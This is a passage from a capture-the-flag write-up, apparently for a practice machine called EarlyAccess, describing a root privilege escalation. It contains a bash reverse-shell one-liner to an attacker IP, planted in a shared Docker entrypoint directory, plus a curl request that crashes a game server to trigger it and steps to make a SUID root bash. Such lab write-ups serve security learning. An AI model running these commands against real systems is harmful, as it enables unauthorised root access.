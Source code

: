 Playing around with those hosts we found out that we can use our `.ssh/id_rsa` to ssh into `game-tester@172.19.0.4` as according to the `id_rsa.pub` the keys are related to `game-tester@game-server`:
```bash
drew@earlyaccess:~/.ssh$ ssh -i id_rsa game-tester@172.19.0.4
```
Mind that the IP can change when the server crashes.
At `/usr/src/app` we can find the [server.js](server.js). We can abuse this game as following...

From the drew mashine we echo this into `/opt/docker-entrypoint.d/` as we can abuse this shared directory:
```bash
echo "/bin/bash -i > /dev/tcp/10.10.14.113/1337 0<&1 2>&1" > test.sh && chmod +x test.sh
```
then we run
```bash
curl -X POST -d "rounds=1.1" http://172.19.0.3:9999/autoplay
```
As soon as the game crashes you should get a new shell. You should hurry a bit or write a script as the files are deleted from time to time but this is how it works:
![term](term.png)

Somehow the libraries for these bash versions differ so we have to use drews bash and can't use it from the reverse shell. So we copy the `/bin/bash` from drew in `/opt/docker-entrypoint.d/`.
With our received reverse shell we are root so we can use `chown root:root ./bash` and `chmod +s ./bash` on that bash of drew. 

Then we can execute it with the -p parameter from the drew machine to become root: